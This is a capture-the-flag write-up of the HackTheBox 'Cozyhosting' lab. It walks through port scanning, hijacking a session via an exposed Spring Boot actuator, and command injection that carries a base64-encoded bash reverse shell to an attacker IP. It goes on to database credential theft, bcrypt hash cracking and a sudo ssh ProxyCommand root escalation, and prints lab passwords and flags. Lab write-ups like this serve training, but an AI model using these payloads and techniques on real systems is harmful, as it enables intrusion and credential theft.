 ```yaml
---
author: Nithissh S
pubDatetime: 2023-09-26
modDatetime: 2023-09-26
title: Cozyhosting - HTB
slug: cozyhosting-htb
featured: false
draft: false
tags:
  - CTF
  - HTB
description:
  An Easy level HackTheBox platform lab machine running Linux containing an open actuator on Spring Boot, Command Injection, application reversal and simple privilege escalation.
---
```


## Service Overview

The machine is assigned IP address 10.10.11.230, let's scan the ports with Nmap:

```sh
$ nmap -sV -sS -Pn -p1-65535 -oN 10.10.11.230 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 01:46 EDT
Nmap scan report for 10.10.11.230
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After going to http://10.10.11.230 we get the address cozyhosting.htb, which we will write in /etc/hosts.

```sh
$ echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

## Web Service

Let's use dirsearch to find interesting files.

```sh
$ python3 dirsearch.py -u http://cozyhosting.htb
Sessions found the user kanderson: <http://cozyhosting.htb/actuator/sessions>.

36FC9F46B782A399A71908E661CF5481	"kanderson"
078E0AFFF6038D86B0E4B9503735EE36	"kanderson"

	
EEB6EBC6B06219C8009764BB6ACCF8DD	"UNAUTHORIZED"
6155F2929B8D4814171410BE580B8215	"kanderson"
```

In web-browser click: Inspect -> Storage -> Cookies - Replace to:

```sh
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg=="|base64${IFS}-d|bash;
```

## Reverse shell:

```sh
$ echo "sh -i >& /dev/tcp/10.10.16.18/4444 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==
```

Let's start nc and send the request:

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.230] 36184
sh: 0: can't access tty; job control turned off
$ ls /home
$ josh
$ ls
$ cloudhosting-0.0.1.jar
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
$ python3 -m http.server 8083
10.10.16.18 - - [08/Sep/2023 10:29:06] "GET / HTTP/1.1" 200 -
10.10.16.18 - - [08/Sep/2023 10:29:07] code 404, message File not found
10.10.16.18 - - [08/Sep/2023 10:29:07] "GET /favicon.ico HTTP/1.1" 404 -
10.10.16.18 - - [08/Sep/2023 10:29:51] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

## Exploring the application

Let's download the application cloudhosting-0.0.1.jar and open it in jd.

```sh
$ wget http://cozyhosting.htb:8083/cloudhosting-0.0.1.jar
```
In application.properties find the password for postgres, and in scheduled/FakeUser.class find the creds for user kanderson:

```sh
$ jar xf cloudhosting-0.0.1.jar
$ cd BOOT-INF/classes
$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's look at the database:

```sh
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
psql -U postgres -W -h localhost -d cozyhosting
psql "postgresql://postgres:nvzAQ7XxR@localhost:5432/cozyhosting"
psql -U postgres -W -h localhost -d cozyhosting
Password: Vg&nvzAQ7XxR

\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

\c cozyhosting
Password: Vg&nvzAQ7XxR

You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

#### Hash Identification (bcrypt):

```sh
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix)      
```

Let's put the hash in the hash.txt file and run hashcat:

```sh
$ hashcat -m 3200 -a 0 hash.txt rockyou.txt
hashcat (v6.1.1) starting...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Let's see what user is still on the system:

```sh
$ ls -la /home
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040750/rwxr-x---  4096  dir   2023-08-08 06:19:05 -0400  josh
Let's try to connect to ssh using:

ssh josh@10.10.11.230
manchesterunited

josh@cozyhosting:~$ cat user.txt
ab5232bdddfdec1731346c7bd7e4e8cc
```

## Privilege escalation

Let's see what the josh user can execute from under sudo: Let's use the gtfobins method.

```sh
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# cd /root
# ls
root.txt
# cat root.txt
f9b3da1faf12ea84a31efc7297b25fc6
```
